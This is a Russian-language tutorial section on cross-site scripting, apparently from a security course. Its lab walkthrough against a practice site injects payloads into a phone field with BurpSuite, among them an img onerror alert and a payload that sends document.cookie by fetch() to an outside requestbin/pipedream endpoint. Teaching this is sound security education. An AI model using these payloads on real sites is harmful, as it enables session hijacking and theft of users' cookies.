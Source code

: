 ### 5.8 Атаки межсайтового скриптинга (XSS)

Межсайтовый скриптинг (также известный как Cross-Site Scripting, XSS) – это уязвимость веб-безопасности, позволяющая
злоумышленнику компрометировать взаимодействие пользователей с уязвимым приложением. Она позволяет злоумышленнику
обходить политику одного источника (Same Origin Policy, SOP), которая предназначена для разделения различных веб сайтов
друг от друга.

#### Как работает XSS?

Уязвимости межсайтового скриптинга, как правило, позволяют злоумышленнику маскироваться под пользователя-жертву,
выполнять любые действия, которые может выполнить пользователь, и получать доступ к любым данным пользователя.

Если пользователь-жертва имеет привилегированный доступ внутри приложения, то атакующий может получить полный контроль
над всей функциональностью и данными приложения.

Межсайтовый скриптинг работает путем манипулирования уязвимым веб-сайтом, чтобы он возвращал пользователям вредоносный
JavaScript. Когда вредоносный код выполняется внутри браузера жертвы, злоумышленник может полностью скомпрометировать их
взаимодействие с приложением.

### Разбор техники

Ход действий

1. Перейдем на главную страницу сайта http://evil.corp:1337/


2. Найдем этот запрос в BurpSuite, отправим в Repeater и внедрим кавычку в поле phone:


3. Отправим заявку и посмотрим на заполненную форму в html-коде, используя средства браузера:

Как видим, кавычка не экранировалась, что говорит о возможности эксплуатации уязвимости XSS – cross-site scripting,
заключающейся в внедрении своего JavaScript-кода в страницу сайта и его последующего выполнения браузером атакуемого
пользователя.

4. Внедрим тем же способом знак “>” чтобы разорвать HTML-тэг и вставить свой; при этом убедимся, что закрывающая угловая
   скобка тоже не заэкранировалась.

Для значения phone +79117238383"> получим код:

5. Используем полезную нагрузку для выдачи сообщения 1 всем, кто открывает страницу с заказом:

+79117238383"><img src=x onerror=alert(1) />

Однако, при отправке запроса в BurpSuite эта полезная нагрузка вызывает ошибку:

6. Закодируем эту полезную нагрузку с помощью Decoder:

Теперь ошибка не возникает, и при заходе на страницу мы получаем сообщение:

7. Один из наиболее распространенных сценариев развития атаки в этой ситуации – передача Cookie посетителя атакующему.
   Чтобы принять запрос, воспользуемся ресурсом https://requestbin.com/. Используем указанный в поле Endpoint URL для
   получения Cookie:

+79117238383"><img src=x onerror=fetch('https://ADDR.x.pipedream.net/?'+document.cookie) />

где ADDR – адрес вашего endpoint.

8. Вновь закодируем полезную нагрузку и отправим её в запросе, а затем откроем новый заказ, после чего в интерфейсе
   pipedream появится запрос с флагом.

### Типы XSS-атак

Существует три основных типа XSS-атак:

- Отраженный XSS, где вредоносный скрипт происходит из текущего HTTP запроса.
- Хранимый XSS, где вредоносный скрипт приходит из хранилища данных веб-сайта.
- Dom-based XSS, где уязвимость существует в клиентском коде, а не в коде сервера.

#### Отраженный XSS
Отраженный межсайтовый скриптинг (XSS) возникает, когда приложение получает данные в HTTP-запросе и включает эти данные
непосредственно в ответ небезопасным способом.

Предположим, что веб-сайт имеет функцию поиска, которая получает пользовательское поисковое слово в параметре
URL:  https://insecure-website.com/search?term=gift

В ответе на этот URL приложение отвечает с заданным поисковым термином:

Предполагая, что приложение не выполняет никакой другой обработки данных, атакующий может построить следующий вектор
атаки:
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>.

Если другой пользователь приложения сделает запрос по URL злоумышленника, то скрипт, предоставленный злоумышленником,
будет выполнен в браузере пользователя-жертвы, в контексте его сеанса работы с приложением.

#### Хранимый XSS
Сохраненный межсайтовый скриптинг (скриптинг второго порядка или постоянный XSS) возникает, когда приложение получает
данные из недоверенного источника и включает эти данные в свои последующие HTTP-ответы небезопасным способом.

Предположим, что веб-сайт позволяет пользователям оставлять комментарии к записям в блогах, которые отображаются другим
пользователям. Пользователи отправляют комментарии, используя HTTP-запрос как показано ниже:

После того, как этот комментарий будет отправлен, любой пользователь, посетивший пост в блоге, получит следующий
комментарий в рамках ответа приложения:

Если предположить, что приложение не выполняет никакой другой обработки данных, злоумышленник может отправить такой
вредоносный комментарий:

В запросе злоумышленника этот комментарий будет иметь URL-адрес, как:

Любой пользователь, посетивший пост в блоге, теперь получит следующий ответ в рамках ответа приложения:

Скрипт, предоставленный злоумышленником, будет затем выполнен в браузере пользователя-жертвы в контексте его сеанса
работы с приложением.

#### Dom-based XSS

XSS-уязвимости, основанные на DOM, обычно возникают, когда JavaScript берет данные из подконтрольного злоумышленнику
источника, например, URL, и передает их «раковине» (англ. sink), поддерживающей динамическое выполнение кода, например,
eval() или innerHTML. Это позволяет злоумышленникам выполнять вредоносный JavaScript, что обычно приводит к взлому
учетных записей других пользователей.

Для реализации XSS-атаки, основанной на DOM, необходимо поместить данные в источник таким образом, чтобы они
распространились на поглотитель и вызвали выполнение произвольного JavaScript.

Наиболее распространенным источником для DOM XSS является URL, доступ к которому обычно осуществляется с помощью объекта
windows.location. Злоумышленник может построить ссылку для отправки жертвы на уязвимую страницу с полезной нагрузкой в
строке запроса и фрагментами URL. В некоторых случаях, например, при нацеливании на страницу 404 или на сайт, работающий
на PHP, полезная нагрузка также может быть помещена в путь.





